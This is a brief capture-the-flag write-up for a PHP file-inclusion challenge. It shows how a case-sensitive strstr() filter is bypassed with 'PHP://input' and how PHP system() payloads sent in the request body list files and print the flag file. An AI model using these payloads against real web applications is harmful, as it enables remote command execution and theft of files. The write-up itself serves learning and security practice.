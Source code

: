 # Web_php_include

![Screenshot from 2021-07-24 21-40-57](https://user-images.githubusercontent.com/87865134/126871958-8e399564-d702-42ee-bdc0-f607b645ebfa.png)

- `php://`
  - Accessing various I/O streams
- `php://input` 
  - is a read-only stream that allows you to read raw data from the request body. php://input is not available with enctype="multipart/form-data"

- Application filter this method by using strstr(): 
  
  `strstr(string $haystack, string $needle, bool $before_needle = false): string|false`
  - This function is case-sensitive. For case-insensitive searches -> can bypass

- Use Burp Repeater to send payload to list all file in current directory:  
  - `?page=PHP://input`
  - in request body: `<?php system('ls'); ?>`    

![Screenshot from 2021-07-24 21-54-28](https://user-images.githubusercontent.com/87865134/126872294-dc57ab31-4be8-41c1-8f92-3d1398a41272.png)

  - >Flag in file fl4gisisish3r3.php

- Send payload to show content of file fl4gisisish3r3.php
  - `?page=PHP://input`
  - in request body: `<?php system('cat fl4gisisish3r3.php'); ?>`

![Screenshot from 2021-07-24 21-57-50](https://user-images.githubusercontent.com/87865134/126872380-91d5eda1-27d6-4c63-944e-da0b4347f66f.png)

- Reference: https://www.php.net/manual/en/wrappers.php.php
